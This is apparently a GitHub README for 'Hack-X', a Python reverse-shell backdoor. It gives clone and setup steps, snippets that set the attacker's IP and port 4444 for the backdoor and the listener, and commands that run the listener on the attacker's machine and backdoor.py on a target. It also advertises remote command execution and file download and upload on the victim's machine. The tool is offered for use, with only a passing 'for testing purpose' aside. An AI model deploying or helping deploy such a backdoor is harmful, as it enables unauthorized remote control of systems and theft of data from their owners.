





# REVERSE BACKDOOR


A backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high level user access (aka root access) on a computer system, network, or software application my  backdoor is program when executed on a system gives full access to the computer system.


## RUN

1. Clone the repo 

```bash
root@kali:~# git clone https://github.com/Error-200/Hack-X.git

```
2. Change the dir 

```bash
root@kali:~#  cd Hack-X
root@kali:~/Hack-X#  cd bacckdoor

```
3.Open both the python codes in your editor and  and set your system **IP** 

```python
my_backdoor = Backdoor("set your ip", 4444)
my_backdoor.run()

```
```python
my_listener = Listener("set your ip", 4444)
my_listener.run()

```
> By default port is set to "4444" you can change according to your own use.

4. For testing purpose you can run the **server.py** (listener code) in your system  and wait for connection and and run   *      **backdoor.py** on other machine(or VB)  to test. 

<code> OWN MACHINE </code>
```python
python server.py

```

<code> TARGET  MACHINE </code>
```python
python backdoor.py

```

## SCREENSHOTS

WAIT FOR THE CONNECTION



ONCE YOU GOT THE CINNECTION


YOU CAN EXECUTE ANY SYSTEM COMMANDS 


DOWNLOAD ANY FILE FROM REMOTE MACHINE  



YOU CAN ASLO UPLOAD ANYTHING



**Once donw with the job simply run "exit" to terminate connection**

```python
root@kali:~# exit

```

### BUILD 

- Python 
- Python modules used 
  - [Sockets](https://docs.python.org/3/library/socket.html)
  - [Subprocess](https://docs.python.org/3/library/subprocess.html)
  - [base64](https://docs.python.org/3/library/base64.html)
  - [os](https://docs.python.org/3/library/os.html)
  - [json](https://docs.python.org/3/library/json.html)
